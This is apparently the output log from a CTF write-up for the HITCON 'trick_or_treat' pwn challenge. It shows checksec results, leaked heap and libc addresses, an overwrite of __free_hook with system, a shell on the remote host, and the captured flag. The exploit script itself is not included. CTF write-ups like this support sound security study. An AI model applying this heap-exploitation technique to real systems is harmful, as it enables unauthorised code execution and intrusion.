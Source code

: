 ```sh
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 3.112.41.140 on port 56746: Done
[*] Chunk: 0x7f56a3973010
[*] __free_hook: 0x7f56a46ea8e8
[*] free_hook_off: 0x1aef1b
[*] system: 0x7f56a434c440
[*] Libc base: 0x7f56a42fd000
Offset & Value:\x00
[*] Switching to interactive mode
Offset & Value:\x00$ id
uid=1001(trick_or_treat) gid=1001(trick_or_treat) groups=1001(trick_or_treat)
$ cat /home/*/flag
hitcon{T1is_i5_th3_c4ndy_for_yoU}
```